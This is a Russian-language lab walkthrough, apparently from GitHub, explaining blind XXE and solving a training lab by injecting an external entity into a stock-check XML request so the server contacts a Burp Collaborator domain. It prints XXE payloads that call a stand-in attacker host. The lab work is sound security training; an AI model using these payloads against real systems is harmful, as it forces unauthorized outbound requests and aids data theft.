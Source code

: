 Что такое слепой XXE?
Уязвимости Blind XXE возникают, когда приложение уязвимо для внедрения XXE, но не возвращает значения каких-либо определенных внешних сущностей в своих ответах. Это означает, что прямое извлечение файлов на стороне сервера невозможно, и поэтому уязвимости Blind XXE, как правило, сложнее эксплуатировать, чем обычные уязвимости XXE.

Существует два основных способа обнаружения и эксплуатации уязвимостей слепого XXE:

Вы можете инициировать внеполосные сетевые взаимодействия, иногда извлекая конфиденциальные данные из данных взаимодействия.
Вы можете инициировать ошибки анализа XML таким образом, чтобы сообщения об ошибках содержали конфиденциальные данные.
Обнаружение слепого XXE с использованием внеполосных (OAST) методов
Часто можно обнаружить слепой XXE, используя ту же технику, что и для атак XXE SSRF , но запуская внеполосное сетевое взаимодействие с системой, которую вы контролируете. Например, вы можете определить внешний объект следующим образом:

<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
Затем вы можете использовать определенную сущность в значении данных в XML.

Эта атака XXE заставляет сервер сделать бэкэнд HTTP-запрос на указанный URL. Злоумышленник может отслеживать результирующий DNS-поиск и HTTP-запрос и тем самым обнаружить, что атака XXE была успешной.

---

В этой лабораторной работе есть функция «Проверка запасов», которая анализирует входные данные XML, но не отображает результат.

Вы можете обнаружить слепую уязвимость XXE, инициировав внеполосное взаимодействие с внешним доменом.

Для решения лабораторной работы используйте внешнюю сущность, чтобы заставить XML-анализатор выполнить DNS-поиск и HTTP-запрос к Burp Collaborator.

---

1. Нас встречает список продуктов, переходим на любой из них:

![image](https://github.com/user-attachments/assets/420f18e2-6900-4413-81f2-7cc5c6103444)

---

2. Внизу страницы есть кнопка "Проверить наличие на складе" включает Burp прокси и нажимаем:

![image](https://github.com/user-attachments/assets/c12710e3-0520-47a9-b507-1bb41849a7df)

---

3. Заходим в Proxy -> HTTP History выбираем POST запрос к /product/stock и отправляем в Repeater: 

![image](https://github.com/user-attachments/assets/1b91cebe-7063-460d-93aa-b390c6a4df26)

---

4. Вставьте следующее определение внешней сущности между декларацией XML и stockCheck элементом. Щелкните правой кнопкой мыши и выберите «Вставить полезную нагрузку Collaborator», чтобы вставить поддомен Burp Collaborator, где указано: <!DOCTYPE stockCheck [ <!ENTITY eyes SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN"> ] > и замените productId номер ссылкой на внешнюю сущность: &eyes;

![image](https://github.com/user-attachments/assets/e517ef38-cf10-47cb-8080-4a6446ee6367)

---

5. Перейдите на вкладку Collaborator и нажмите «Poll now». Если вы не видите перечисленных взаимодействий, подождите несколько секунд и попробуйте снова. Вы должны увидеть некоторые взаимодействия DNS и HTTP, которые были инициированы приложением в результате вашей полезной нагрузки.
